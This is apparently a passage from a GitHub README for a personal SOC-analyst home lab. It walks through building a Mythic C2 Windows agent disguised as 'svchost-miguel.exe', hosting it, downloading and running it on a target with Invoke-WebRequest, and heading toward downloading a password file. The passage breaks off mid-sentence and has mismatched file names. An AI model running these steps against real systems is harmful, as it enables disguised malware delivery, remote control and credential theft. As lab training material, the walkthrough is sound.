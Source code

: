   ```bash
  - Generate new payload
  - Windows
  - WinExe
  - Include every command
  - Include C2 profile
  - Callback host:  
    Use: `http://mythic public IP address`
    *Very important to remove the 's' from `https://`, this took me an hour of troubleshooting as it would not connect to an active callback in Phase 5.*
  - Callback port: 80
  - Payload name: `svchost-miguel.exe`
  - Description: Payload/Agent
  - Create payload
  - Download
    - Copy link address

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143607.png)

- Back on Powershell
  - Use: `pwd`
  - Use: `wget paste link address --no-check-certificate`
  - Use: `ls`  
    *Now you have a new file.*
  - Change the name of the file  
    Use: `mv filename svchost-miguel.exe`  
    Use: `ls`

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143630.png)

  - Create a directory  
    Use: `mkdir 1`  
    Use: `mv svc-miguel.exe 1/`  
    Use: `cd 1`  
    Use: `ls`
  - Firewall allow on port 9999  
    Use: `ufw allow 9999`  
    Use: `ufw allow 80`

  - Use a Python module for HTTP  
    Use: `python3 -m http.server 9999`

## Phase 5:

- Back in Kali (use Powershell, not the command prompt)  
  Use: `Invoke-WebRequest -Url http://mythic server IP address:9999/svchost-miguel.exe -OutFile “C:\Users\Public\Downloads\svchost-miguel.exe”`

  - Now let's see what's in Downloads  
    Use: `cd C:\Users\Public\Downloads`  
    Use: `dir`
  - Run svchost-miguel.exe  
    Use: `.\svchost-miguel.exe`  
    Use: `netstat`  
    *You should see svchost-mig
## Phase 6: Download the Password File

1. **Active Callback in Mythic**
    - After establishing an active callback from the target machine to the Mythic server, navigate to the active session in the Mythic Web GUI.

2. **Execute Download Command**
  ```